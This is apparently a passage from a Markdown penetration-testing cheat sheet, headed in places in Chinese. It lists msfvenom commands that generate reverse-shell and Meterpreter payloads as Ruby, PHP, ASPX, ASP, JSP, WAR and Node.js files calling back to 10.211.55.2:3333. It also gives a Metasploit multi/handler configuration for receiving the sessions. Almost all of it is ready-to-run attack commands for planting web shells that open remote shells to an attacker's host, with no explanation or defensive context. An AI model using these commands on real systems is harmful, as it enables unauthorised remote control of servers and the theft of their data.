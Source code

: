 ```
```
### Ruby
```
msfvenom -p ruby/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.rb
```

## Web

###  PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASPX
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f aspx -o shell.aspx
```
###  ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f asp > shell.asp
```
###  JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.jsp
```
###  WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f war > shell.war
```
### nodejs
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.js

```
## Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST 10.211.55.2
set LPORT 3333
set ExitOnSession false
exploit -j -z
```

# msfvenom命令自动补全
